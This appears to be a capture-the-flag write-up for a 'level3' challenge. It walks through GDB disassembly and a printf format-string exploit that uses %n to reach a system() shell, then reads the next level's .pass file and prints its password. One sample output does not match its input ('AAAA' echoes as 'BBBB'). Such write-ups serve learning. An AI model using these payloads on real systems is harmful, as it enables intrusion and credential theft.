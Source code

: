 # LEVEL3

First step - testing the program
```
$ ./level3
Hello
Hello
```

The program wait an input and print it

Start it in GDB
```
(gdb)$ disas main
Dump of assembler code for function main:
   0x0804851a <+0>:		push   ebp
   0x0804851b <+1>:		mov    ebp,esp
   0x0804851d <+3>:		and    esp,0xfffffff0
   0x08048520 <+6>:		call   0x80484a4 <v>
   0x08048525 <+11>:	leave
   0x08048526 <+12>:	ret
End of assembler dump.
```
The main call a function "v"
```
(gdb)$ disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:		push   ebp
   0x080484a5 <+1>:		mov    ebp,esp
   0x080484a7 <+3>:		sub    esp,0x218
   0x080484ad <+9>:		mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    eax,ds:0x8049880
   0x080484e9 <+69>:	mov    edx,eax
   0x080484eb <+71>:	mov    eax,0x8048600
   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave
   0x08048519 <+117>:	ret
End of assembler dump.
```

Here, the program compare `m` global variable with `64` 
```
  0x080484da <+54>:	mov    eax,ds:0x804988c
  0x080484df <+59>:	cmp    eax,0x40
```

If comparaison is true, the program call `system` .

---

We can exploit `printf` with **Format String exploit**

First step find which adress our buffer is wrote '
```
$ echo "AAAA %x %x %x %x %x" | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 41414141 20782520 
```

Now, we need to change this address to the address of the "m" variable ("0x804988c" in gdb), for change it after. We will use the modifier "%n" instead of "%x" for write in the address the number of bytes before.

```
python -c 'print("\x8c\x98\x04\x08" + "A" * 60 + "%4$n")' > payload
```

Let's run : 

```
$ cat payload - | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```








